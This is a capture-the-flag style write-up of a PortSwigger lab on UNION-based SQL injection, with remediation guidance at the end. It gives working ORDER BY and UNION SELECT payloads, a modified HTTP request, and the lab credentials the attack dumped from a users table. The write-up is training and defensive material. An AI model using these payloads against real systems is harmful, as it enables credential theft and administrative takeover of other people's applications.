




# Lab 09: SQL Injection UNION Attack, Retrieving Data from Other Tables

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 24, 2026

---

## 1. Objective
Determine the number of columns and compatible string data types in the product category filter query, extract user credentials from the `users` table via a `UNION SELECT` attack, and log in as the `administrator` user.

---

## 2. Reconnaissance & Enumeration
- **Target Endpoint:** `GET /filter?category=Gifts`
- **Vulnerable Parameter:** `category` (URL Query Parameter)

### Step-by-Step Enumeration
1. **Determine Column Count (`ORDER BY`):**
   - Tested `' order by 2--` $\rightarrow$ returned **HTTP 200 OK**.
   - Tested `' order by 3--` $\rightarrow$ returned **HTTP 500 Internal Server Error**.
   - **Result:** The original query returns **2 columns**.
2. **Identify String-Compatible Columns (`UNION SELECT`):**
   - Tested `' UNION select 'a', 'a'--` $\rightarrow$ returned **HTTP 200 OK**, confirming **both columns** accept string/text data.

---

## 3. Exploitation & Proof of Concept (PoC)
Since both columns are text-compatible and rendered in the HTML response table, we query the `username` and `password` columns directly from the `users` table.

### Final Payload
```sql
' UNION select username, password from users--
```
## Modified HTTP Request (Burp Repeater)
```
GET /filter?category=Gifts' UNION select username, password from users-- HTTP/2
Host: 0a11005d038fc43e805585d600e10069.web-security-academy.net
Cookie: session=[REDACTED]
```
## Extracted Credentials

Username: administrator   
Password: sekx9p6j9lgmpwrespus   

Logging in via /login with these credentials granted full administrative access and solved the lab.   

## Proof of Exploitation Screenshots
1. Confirming 2 Columns (' order by 2--):
  
2. Confirming Both Columns Accept Text (' UNION select 'a', 'a'--):

3. Extracting User Credentials (' UNION select username, password from users--):

4. Administrative Login & Lab Completion Banner:


## 4. Impact
An unauthenticated attacker can leverage UNION-based SQL injection in a public product filter to dump plaintext or hashed credentials from sensitive internal tables (users), resulting in complete administrative account takeover.

## 5. Remediation
Primary Fix (Parameterized Queries): Use prepared statements with bound parameters so user input in category is treated strictly as data rather than executable SQL syntax:

```
// Secure PHP PDO Parameterized Query Example
$stmt =$pdo->prepare('SELECT title, description FROM products WHERE category = :category');
$stmt->execute(['category' =>$_GET['category']]);
$products =$stmt->fetchAll();
```
Password Storage Best Practices: Store user passwords using strong, salted adaptive hashing algorithms (such as Argon2id or bcrypt) rather than plaintext so database read vulnerabilities do not immediately expose valid login credentials.

